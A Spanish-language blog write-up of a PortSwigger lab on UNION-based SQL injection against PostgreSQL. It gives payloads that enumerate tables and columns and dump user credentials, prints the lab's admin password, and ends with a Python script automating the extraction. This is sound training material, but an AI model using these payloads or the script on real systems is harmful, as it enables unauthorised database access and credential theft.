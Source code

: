 ```yaml
---
title: "09 SQL injection attack, listing the database contents on non Oracle databases"
collection: publications
category: portswigger
permalink: /publications/09_SQL injection attack, listing the database contents on non Oracle databases
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el campo de categoría de producto. Para resolver el laboratorio, realizamos un ataque de inyección SQL basado en UNION en una base de datos PostgreSQL que recupera los nombres de usuario y las contraseñas de todos los usuarios de la aplicación.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection attack, listing the database contents on non Oracle databases'
---
```


![logo]({{site.url}}/images/SQLi/sqli-9/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-9/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, inicia sesión como usuario administrador.

## Determinamos que el campo si es vulnerable

```javascript
' or 1=1--
```

![Vulnerable]({{site.url}}/images/SQLi/sqli-9/vulnerable.png)

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 2 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
```

![Order by]({{site.url}}/images/SQLi/sqli-9/order by.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL--
' UNION SELECT NULL, 'A'-- 
' UNION SELECT 'A', 'A'--
```

![String]({{site.url}}/images/SQLi/sqli-9/campo string.png)

## Miramos la versión de la BD

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Es una BD Postgres SQL

![DB version]({{site.url}}/images/SQLi/sqli-7/DB version.png)

```javascript
' UNION SELECT version(), NULL --
```

![version]({{site.url}}/images/SQLi/sqli-7/Payload.png)

## Obtener el nombre de las tablas

Ya que conocemos el tipo de BD, debemos listar el nombre de las tablas.

```javascript
' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='public'--
```

![Tablas]({{site.url}}/images/SQLi/sqli-9/tablas.png)

## Listamos las columnas

```javascript
' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users_pzweot'--
```

```
username_jijzil
password_wjgcqi
```

![Columnas de la tabla]({{site.url}}/images/SQLi/sqli-9/columnas de la tabla.png)

## Listar username y password
Ya que conocemos las columnas de la tabla, debemos listarla. En esta ocación unimos en una sola columna

```javascript
' UNION SELECT NULL,username_jijzil || '*****' || password_wjgcqi FROM users_pzweot--
```

![Usuarios Passwords]({{site.url}}/images/SQLi/sqli-6/listado usuario y password.png)

## Procedemos a hacer el login

```
administrator
6rhx7r9m4iscbb2be39d
```

![login]({{site.url}}/images/SQLi/sqli-9/login.png)

## Solucionado

Solventado el laboratorio

![Aprobado]({{site.url}}/images/SQLi/sqli-9/aprobado.png)

# Codigo Python
```python
import requests
import sys
import urllib3 
from bs4 import BeautifulSoup
import re

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def perform_request(url, sql_payload):
    path = '/filter?category=Accessories'
    r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
    return r.text


def sqli_users_table(url):
    sql_payload = "' UNION SELECT table_name, NULL FROM information_schema.tables--"
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    users_table = soup.find(text=re.compile('.*users.*'))
    if users_table:
        return users_table
    else:
        return False

def sqli_users_columns(url, users_table):
    sql_payload = "' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = '%s'--" % users_table
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    username_column = soup.find(text=re.compile('.*username.*'))
    password_column = soup.find(text=re.compile('.*password.*'))
    return username_column, password_column

def sqli_administrator_cred(url, users_table, username_column, password_column):
    sql_payload = "' UNION select %s, %s from %s--" %(username_column, password_column, users_table)
    res = perform_request(url, sql_payload)
    soup = BeautifulSoup(res, 'html.parser')
    admin_password = soup.body.find(text="administrator").parent.findNext('td').contents[0]
    return admin_password

if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print("[-] Usage: %s <url>" % sys.argv[0])
        print("[-] Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    print("Looking for a users table...")
    users_table = sqli_users_table(url)
    if users_table:
        print("Found the users table name: %s" % users_table)
        # step #5
        username_column, password_column = sqli_users_columns(url, users_table)
        if username_column and password_column:
            print("Found the username column name: %s" % username_column)
            print("Found the password column name: %s" % password_column)

            # step #6
            admin_password = sqli_administrator_cred(url, users_table, username_column, password_column)
            if admin_password:
                print("[+] The administrator password is: %s " % admin_password)
            else:
                print("[-] Did not find the administrator password.")
        else:
            print("Did not find the username and/or the password columns.")

    else:
        print("Did not find a users table.")
```